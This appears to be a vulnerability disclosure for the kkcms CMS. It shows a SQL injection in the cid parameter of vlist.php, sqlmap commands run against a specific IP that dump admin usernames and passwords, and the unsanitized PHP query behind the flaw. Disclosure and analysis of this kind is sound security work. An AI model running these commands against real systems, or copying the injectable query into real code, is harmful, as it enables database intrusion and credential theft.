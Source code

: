 # SQL injection vulnerability analysis in kkcms

**There is a vulnerability classified as severe in the cid parameter in templates/vlist. php. Performing SQL injection attacks on the cid parameter can obtain database information for the entire system.**

The kkcms source code has been uploaded to the 'kkcms_SourceCode' branch in this repository. 

Here is its original code repository address:[kkcms](https://github.com/jsyzjhj/kkcms)

## The following is the process of analysis:

### 1. Install and deploy kkcms on the server：

![](https://github.com/PrecursorYork/kkcms_SQLi/raw/vulnerability-analysis/0.png)

### 2. It was found that inputting special characters into the cid parameter in the `vlist.php` page will return an exception page. It is speculated that there is a SQL injection attack vulnerability here.

+ Input`cid=1`：
  ![](https://github.com/PrecursorYork/kkcms_SQLi/raw/vulnerability-analysis/1.png)
  The server returns to the normal page.

+ Input`cid=1'`to try closing the SQL query statement：
  ![](https://github.com/PrecursorYork/kkcms_SQLi/raw/vulnerability-analysis/2.png)
  The server returned an exception page. This indicates the existence of an SQL injection vulnerability.

### 3. Use SQL map tool for testing to confirm the existence of SQL injection vulnerabilities. It will cause the database information of the entire system to be leaked. Here is an example of administrator account password leakage:

+ ```
  python sqlmap.py -u "http://47.120.46.90/vlist.php?cid=1" --tables
  ```
  
  ![](https://github.com/PrecursorYork/kkcms_SQLi/raw/vulnerability-analysis/3.png)

+ ```
  python sqlmap.py -u "http://47.120.46.90/vlist.php?cid=1" --columns -T xtcms_manager
  ```
  
  ![](https://github.com/PrecursorYork/kkcms_SQLi/raw/vulnerability-analysis/4.png)

+ ```
  python sqlmap.py -u "http://47.120.46.90/vlist.php?cid=1" --dump -T xtcms_manager -C "m_name,m_password"
  ```
  
  ![](https://github.com/PrecursorYork/kkcms_SQLi/raw/vulnerability-analysis/5.png)

### 4. Check source code

1. `/vlist.php`:
   
   ```
      <?php 
   include('system/inc.php');
   include('template/'.$xtcms_bdyun.'/vlist.php');
   ?>
   ```
   
   Discovered the inclusion of two PHP files:`/system/inc.php` and`/template/wapian/vlist.php`. Among them, `/system/inc.php'`contains partially written escape functions.

2. Check `/template/wapian/vlist.php`, discovered the key code:
   
   ```
   <?php
   if ($_GET['cid'] != 0){
    ?>                  
   <?php
   $result = mysql_query('select * from xtcms_vod_class where c_pid='.$_GET['cid'].' order by c_sort desc,c_id asc');
   while ($row = mysql_fetch_array($result))
   {
   echo '<a href="./vlist.php?cid='.$row['c_id'].'" class="acat" style="white-space: pre-wrap;margin-bottom: 4px;">'.$row['c_name'].'</a>';
   }
   ?>
   ```
   
   There is no reference to the source code`.$_GET ['cid']`variable is filtered by directly using single quotation marks for wrapping, and the escape function written in`/system/inc.php`is not used for querying. This is where typical SQL injection vulnerabilities lie.


